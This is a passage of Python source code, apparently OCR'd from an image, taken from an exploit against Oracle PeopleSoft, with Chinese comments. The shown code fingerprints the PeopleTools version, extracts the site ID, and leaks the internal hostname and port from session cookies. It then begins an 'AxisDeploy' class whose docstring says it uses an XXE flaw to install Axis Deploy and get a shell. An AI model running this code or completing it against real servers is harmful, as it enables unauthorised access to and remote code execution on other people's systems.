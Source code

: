```py
        self.site_id = None
        self.local_port = None
        self.check_version()
        self.check_site_id()
        self.check_local_infos()

    def check_version(self):    # 查看版本
        """Grabs PeopleTools' version.
        """
        self.version = None
        r = self.get('/PSEMHUB/hub')
        m = self.matches(r, 'Registered Hosts Summary - ([0-9\.]+).</b>')

        if m:
            self.version = m[0]
            o(':', 'PTools version: %s' % self.version)
        else:
            o('-', 'Unable to find version')

    def check_site_id(self):  # 访问/ 其响应中的html通过正则匹配出site name/ID
        """Grabs the site ID and the local port.
        """
        if self.site_id:
            return

        r = self.get('/')
        m = self.matches(r, '/([^/]+)/signon.html')

        if not m:
            raise RuntimeError('Unable to find site ID')

        self.site_id = m[0]
        o('+', 'Site ID: ' + self.site_id)

    def check_local_infos(self):
        """Uses cookies to leak hostname and local port.
        """
        if self.local_port:
            return

        r = self.get('/psp/%s/signon.html' % self.site_id)

        for c, v in self.session.cookies.items():
            if c.endswith('-PORTAL-PSJSESSIONID'):   # 这里当Set-Cookie的值有多个-分割时可能有bug。待实际环境修改此处。
                #self.local_host, self.local_port, *_ = c.split('-')
                self.local_host, self.local_port = 'localhost','80'
                o('+', 'Target: %s:%s' % (self.local_host, self.local_port))
                return

        raise RuntimeError('Unable to get local hostname / port')


class AxisDeploy(Recon):
    """Uses the XXE to install Deploy, and uses its two useful methods to get
    a shell.
    """

    def init(self):
        super().init()
        self.service_name = 'YZWXOUuHhildsVmHwIKdZbDCNmRHznXR' #self.random_string(10)

    def random_string(self, size):
        return ''.join(random.choice(string.ascii_letters) for _ in range(size))
```